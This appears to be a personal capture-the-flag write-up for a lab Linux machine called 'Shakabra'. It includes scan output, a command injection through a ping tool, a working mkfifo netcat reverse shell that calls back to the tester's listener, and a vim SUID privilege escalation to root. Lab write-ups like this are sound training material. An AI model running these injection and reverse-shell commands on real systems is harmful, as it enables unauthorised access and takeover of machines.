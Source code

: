 ```yaml
---
Alias: Shakabra
Date: 5/4/22
Platform: Linux
Difficulty: Easy
Tags: #ConnectionTesterTool #Command_Injection #mkfifoNetcatReverseShell #SUIDvim.basicPrivilegeEscalation
Status: Finished
IP: 192.168.127.86
---
```


# {{Shakabra}}


# Resolution summary
- Found a connection tester tool running on port 80
- Added a semi colon and modified mkfifo netcat one liner; setup a netcat listener and recieved a reverse shell
- Found SUID /usr/bin/vim.basic binary on the target machine
- Found the SUID binary on GTFO bins 
- Followed the steps to escalate privileges and received a root shell

## Improved skills
- Found adding a semi colon after a command will be treated a separate command the commands will be executed sequentially 

## Used tools
- nmap
- rustscan


---

# Information Gathering
Scanned all TCP ports:
```bash
rustscan --addresses 192.168.127.86 --ulimit 5000 -- -A -sC -Pn -sV -T 1500
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/brian/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.127.86:22
Open 192.168.127.86:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sC -Pn -sV -T 1500" on ip 192.168.127.86
Depending on the complexity of the script, results may take some time to appear.
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 18:04 PDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:04
Completed Parallel DNS resolution of 1 host. at 18:04, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:04
Scanning 192.168.127.86 [2 ports]
Discovered open port 80/tcp on 192.168.127.86
Discovered open port 22/tcp on 192.168.127.86
Completed Connect Scan at 18:04, 30.08s elapsed (2 total ports)
Initiating Service scan at 18:04
Scanning 2 services on 192.168.127.86
Completed Service scan at 18:04, 6.34s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.127.86.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:05, 4.86s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Nmap scan report for 192.168.127.86
Host is up, received user-set (0.081s latency).
Scanned at 2022-10-18 18:04:35 PDT for 26s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKxggEEcOcfAnY39JxZPtqfSeoP5ELSTfKdMZW1gwC5cdbN+n+rNZtzEFPJtRQrUGYntWi9OI642XAYf/w7EYnahMudH6sEkBBnycJB9mpMznx6j2woFqEC99hV2Kv+HrKBfUVH2ZottNDMTAeHmAQn38urRKTSw5XRL2lIHyjAlQuhBC9G0IOHSQevab1JO7QMS7RinkKMuK471IKEiGo6cs2qYl7s5/mbPzn74ItxZyjMaNreraKLzxxUv2rXO4D1KLJGH8hoHCdoueHenF0jA4mggOLtx33gi/Dwj65GZqz3up/93Rk3KFx9PDH81Wl/RMXzJPHObWTXFUgYCPR
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmK6n2750Zgk5TzwOOVaORuM6X+mZvgnDZ089sXvhfp5r09499qYQzThIXcaOuWpDmzP2e/eK27h5teQUyF+Bw=
|   256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINPPEuspoT6EYlb7TZCsDgkEBtBHIlzl8yu089UQJsA8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.93 seconds

```

Enumerated open TCP ports:
```bash
80
22
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80 - Apache httpd 2.4.29

#### As port 80 was found to be open per nmap scan; I navigated to the boxes IP address and found the below webpage: 

![](Images/Pasted%20image%2020221018181215.png)
#ConnectionTesterTool
#### As "127.0.0.1 was already populated in the "ping" bar I input "127.0.0.1" into it and clicked go and found the below ping results: 

![](Images/Pasted%20image%2020221018181341.png)

#### I then typed ";cat /etc/passwd" (adding a semicolon at the end of 127.0.0.1) and found the below user "dylan" on the system: 

![](Images/Pasted%20image%2020221018181441.png)
#Command_Injection 

#### Then typed "; which nc" and found the machine had nc installed:

![](Images/Pasted%20image%2020221018181531.png)

![](Images/Pasted%20image%2020221018181603.png)

---

# Exploitation
## Name of the technique
## Command injection from connection tester tool

#### I attempted to type the usual netcat one liner reverse shell syntax but didn't work. I then tried "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [kali IP] [Listener Port] >/tmp/f" found in "pentestmonkey.net" but had to modify it to the following in order to get it to work: "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.53.200 80 >/tmp/f" (the modification I added was the "-f" after command "rm") 
#mkfifoNetcatReverseShell

#### Ran the syntax above on the connection tester tool and had a listener listening on my kali machine and received a reverse shell 

![](Images/Pasted%20image%2020221018181728.png)

---

# Privilege Escalation
## Local Enumeration

#### Typed "find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null" to find SUID binaries and found the following "vim.basic" set as SUID bit: 
![](Images/Pasted%20image%2020221018183948.png)


## Privilege Escalation vector
## VIM SUID Binary

#### Found "vim" in GTFOBins site and followed the instructions to run the binary and type colon to enter "enter command mode" and prepend py3 to the command as the machine only has python3 and typed ":py3 import os; os.exec("/bin/sh", "sh", "-pc", "reset; exec sh -p")" and then enter and then when asked "which terminal?" Enter "xterm" and then received a root shell: 

![](Images/Pasted%20image%2020221018184110.png)

![](Images/Pasted%20image%2020221018184146.png)

![](Images/Pasted%20image%2020221018184222.png)
#SUIDvim.basicPrivilegeEscalation
---

